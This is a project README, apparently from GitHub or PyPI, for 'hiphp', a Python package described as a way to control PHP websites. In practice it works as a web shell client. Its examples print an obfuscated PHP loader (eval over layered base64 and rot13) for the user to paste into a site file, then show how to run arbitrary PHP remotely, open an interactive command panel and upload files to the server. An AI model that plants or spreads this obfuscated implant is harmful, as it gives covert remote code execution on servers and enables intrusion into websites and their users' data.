 
<h1>hiphp for control php websites.</h1>

<p>A package for controlling a php-based website.</p>

<h2>Installation:</h2>

```
pip install hiphp==0.1.10
```

<h2>Usage:</h2>

```python
from hiphp import hiphp
p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>",False) #In order to print the result directly.
#p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>") #In order to make the result as a variable.
print(p1.get_code()) #Get HIPHP ID for first use.
p1.run("<YOUR_CODE>") #Run a code or line in your website.
p1.run_file("<PHP_CODE_FILE_PATH>") #Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>") #Run a code or line in your website from a file With the entry of variables.
p1.cli() #open command panel
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>") #Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>")

```

<h2>Examples:</h2>

```python
from hiphp import hiphp
p1=hiphp("123","http://localhost/index.php",False)
# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php
# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''
# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''
# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''
# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''
# Example:6
# Upload a picture:
p1.upload("picture_example.png")
# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")

```

<h2>Changelog:</h2>

```
## 0.1.10
- Fix Bugs.
## 0.1.9
 - fix bugs.
 
## 0.1.7
 - fix bugs.
 
## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.
 
## 0.1.5
 - fix bugs.
## 0.1.4
 - fix bugs.
 - new build.
 
## 0.1.1
 - Import pakages by pipincluder.
 - Fix bugs.
 
## 0.1.0
 - New build.
 - Fix bugs.
 
## 0.0.4
 - Fix bugs.
 
## 0.0.2
 - Fix bugs.
 - Add help list.
 - Add Executing from files.
 
## 0.0.1
 - First public release.

```

<h1></h1> 
   
<p align="center">
   <a href="https://www.linkedin.com/in/yasserbdj96" align="center"><img align="center" alt="linkedin" src="https://img.shields.io/badge/-LinkedIn-0e76a8?style=flat-square&logo=Linkedin&logoColor=white"></a>
   <a href="https://yasserbdj96.github.io" align="center"><img align="center" alt="website" src="https://img.shields.io/badge/Website-3b5998?style=flat-square&logo=google-chrome&logoColor=white"></a>
   <a href="https://twitter.com/yasserbdj96" align="center"><img align="center" alt="twitter" src="https://img.shields.io/badge/-Twitter-00acee?style=flat-square&logo=Twitter&logoColor=white"></a>
   <a href="https://www.instagram.com/yasserbdj96" align="center"><img align="center" alt="instagram" src="https://img.shields.io/badge/-Instagram-e4405f?style=flat-square&logo=Instagram&logoColor=white"></a>
   <a href="https://www.facebook.com/yasserbdj96" align="center"><img align="center" alt="facebook" src="https://img.shields.io/badge/-facebook-0088cc?style=flat-square&logo=facebook&logoColor=white"></a>
   <a href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg" align="center"><img align="center" alt="youtube" src="https://img.shields.io/badge/-youtube-ea4335?style=flat-square&logo=youtube&logoColor=white"></a>
   <a href="https://pypi.org/user/yasserbdj96" align="center"><img align="center" alt="pypi" src="https://img.shields.io/badge/-pypi-efeeea?style=flat-square&logo=pypi"></a>
</p>

<p align="center">
    BTC : 16mUJYXdNh9VkjN3MQawA8wvYJqL9F5CKZ

</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>

<div align="center">
    <a href="https://yasserbdj96.github.io"><img alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/yasserbdj96/main/images/yasserbdj96.png"></a>
   <br>
    <a href="https://github.com/yasserbdj96/" align="center"><img align="center" alt="" src="https://visitor-badge.laobi.icu/badge?page_id=yasserbdj96.hiphp"></a>
</div>
